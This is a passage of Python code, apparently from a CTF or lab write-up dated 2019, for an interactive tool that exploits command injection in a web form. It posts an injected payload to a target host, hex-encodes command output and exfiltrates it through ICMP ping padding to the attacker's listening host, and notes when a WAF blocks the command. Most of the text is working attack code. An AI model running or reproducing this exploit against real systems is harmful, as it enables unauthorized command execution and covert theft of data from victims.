 ```python
		else:
			self.proxies = {}

		self.LHOST = LHOST
		self.RHOST = RHOST
		self.inject = r"""{ {cmd}; echo {MARKER}; } 2>&1 | xxd -p | tr -d '\n' | fold -w 32 | while read output; do ping -c 1 -p $output {LHOST}; done"""

	def do_cmd(self, cmd):
		try:
			resp = requests.post(
				f'http://{self.RHOST}/',
				data=f'command={quote_plus(self.inject.format(cmd=cmd, MARKER=MARKER*4, LHOST=self.LHOST))}',
				headers={'Content-Type': 'application/x-www-form-urlencoded'},
				proxies=self.proxies
			)

			if resp.status_code == 200:
				if 'Command is not allowed.' in resp.text:
					print(f'{Y%0}[!] Command triggers WAF filter. Try something else{S}')

		except requests.exceptions.ConnectionError as e:
			print(str(e))
			print(f'{R%0}[-] No response from {self.RHOST}{S}')

		finally:
			print()

	def do_EOF(self, args):
		print()
		return True

	def emptyline(self):
		pass


if __name__ == '__main__':
	if len(sys.argv) < 3:
		print(f'Usage: python3 {sys.argv[0]} <LHOST> <RHOST>')
		sys.exit()
	else:
		LHOST = sys.argv[1]
		RHOST = sys.argv[2]

	sniffer = ICMPSniffer()
	sniffer.daemon = True
	sniffer.start()

	terminal = Terminal(
		LHOST,
		RHOST,
		# proxies='http://127.0.0.1:8080'  # Burp
	)
	terminal.cmdloop()
```


[//]: # (2019-08-20)